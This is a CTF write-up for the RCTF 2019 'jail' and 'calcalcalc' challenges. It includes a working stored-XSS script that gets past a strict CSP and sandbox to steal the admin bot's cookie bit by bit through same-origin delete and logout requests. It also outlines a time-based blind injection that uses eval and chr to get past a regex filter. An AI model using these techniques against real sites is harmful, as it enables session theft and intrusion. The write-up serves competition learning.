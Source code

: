 Jail
------

For the intended solution, go to [this writeup](https://github.com/zsxsoft/my-ctf-challenges/tree/master/rctf2019/jail%20%26%20password)

Ok so I found an (un)intended way to solve `jail` challenge at [RCTF 2019](https://ctftime.org/event/812). First let's analyze the web application - [here if it's still up](https://jail.2019.rctf.rois.io/)

It's a web app written in PHP that requires the user to login and allows him to post messages for himself which are listed only to himself, send feedback to the admin with a post id (a headless browser instance checks them), to upload an avatar (can upload arbitrary content with any extension), to delete all posts and to logout.

![main_page](jail/mainpage.png)

Those are the endpoints
```
GET  /?action=login
POST /?action=login
GET  /?action=signup
POST /?action=signup

logged in only
GET  / - list all messages
POST / - post message with param message
GET  /?action=post&id=003ab6a68ba176a916c5d16510e5c4d7 - get message
GET  /?action=feedback - feedback page
POST /?action=feedback - post feedback with `id` and `captcha` which was a proof of work
GET  /?action=profile
POST /?action=profile
GET  /?action=index&method=delete
GET  /?action=index&method=logout
```

Well playing around I could see that messages are not stripped of html in any way. So the solution must be some type of XSS. Loading a message page, there was a hint.

```
Set-Cookie: hint1=flag1_is_in_cookie
Set-Cookie: hint2=meta_refresh_is_banned_in_server
```

Clearly XSS. But trying something I was quickly blocked by the following CSP:
```
sandbox allow-scripts allow-same-origin
base-uri 'none'
default-src 'self'
script-src 'unsafe-inline' 'self'
connect-src 'none'
object-src 'none'
frame-src 'none'
font-src data: 'self'
style-src 'unsafe-inline' 'self'
```

Everything looked like it was blocked. Nothing external available. But I saw some hope at `script-src 'unsafe-inline' 'self'`. Hmm maybe not, as the following script was prepended to my message content and was blocking redirects:

```html
<script>
window.addEventListener("beforeunload", function (event) {
  event.returnValue = "Are you sure want to exit?"
  return "Are you sure want to exit?"
})
Object.freeze(document.location) </script>
___MY_MESSAGE___
```

So let's go back the the feedback page. There I would enter the post id, solve the captcha and "some admin would check the link by hand" (headless browser lol). As the html from the post wasn't escaped, the admin would run our html and javascript. Meaning I could exfiltrate his cookies and do other stuff with his browser.

![feedback page preview](jail/feedback_page.png)

Ok. How can I exfiltrate the cookie without anything external? It was a bit obvious I could just send it internally. Just get the admin's cookie, replace his cookie with mine (meaning he would be logged as me) and just post a message with his cookie. Well, pretty good plan BUT the sandbox property of CSP wouldn't allow that (`sandbox allow-scripts allow-same-origin`). We would be needing `allow-forms`.

At least I can make get requests with an image. Maybe... This was an outrageous idea, but do you remember the `delete all` endpoint? It's a `GET`. And `logout` is also a `GET`. Maybe I can exfiltrate the cookie bit by bit. 1 goes to `delete all`, 0 goes to `logout`, and if it fails, nothing would happen so I would have to retry. Let's do some math. Let's say the flag has 40 chars. It's printable ASCII so we can assume the leftmost bit is 0. `0xxxxxxx`. We would have to send `40 * 7 = 280` requests. Pretty doable.

I tried it.

```html
<script>
i=0;
j=1;

v = document.cookie;
s = v.charCodeAt(i).toString(2).padStart(8, '0')[j];
document.cookie="PHPSESSID=mysessionid";

window.onload = function() {

method = null;
if (s === '1') {
    method = 'delete';
} else if(s === '0') {
    method = 'logout';
} else {
    method = 'bad';
}

document.write('<img src="https://jail.2019.rctf.rois.io/?action=index&method=' + method + '">');

};
</script>
```

IT FREAKING WORKS. I had to automate it and make it bad ass. Not a big deal. Remember the captcha from feedback? I pregenerated all of them, put them in a `marshal file` and loaded them at the start. `165M` of hashmap.

The plan is as follows:
1. Login if not logged in
2. Post the message and get post id
3. Send post id to feedback
4. Wait 5 seconds then check the main page
    * if logged out: return 0
    * elif no posts found: return 1 # posts deleted
    * else retry

![output](jail/output.png)

It worked. After like 20-30 minutes we got the flag. You can check out the source at [jail/bf.py](jail/bf.py). I used comments :))

FLAG IS `RCTF{welc0me_t0_the_chaos_w0r1d}`

Sorry for spamming you guys at RCTF. I hope you enjoyed this alternative solution.

CALCALCALC
-----

I found a solution which I think was too easy for `calcalcalc`. Basically one could use `eval()` with `chr()` to escape this regex check `!/^[0-9a-z\[\]\(\)\+\-\*\/ \t]+$/i.test(str)`. The payload would run in python, and by using sleep and a binary search I was able to get the flag.

Source code at [calc/main.py](calc/main.py)

FLAG IS `RCTF{watch_Kemurikusa_to_c4lm_d0wn}`
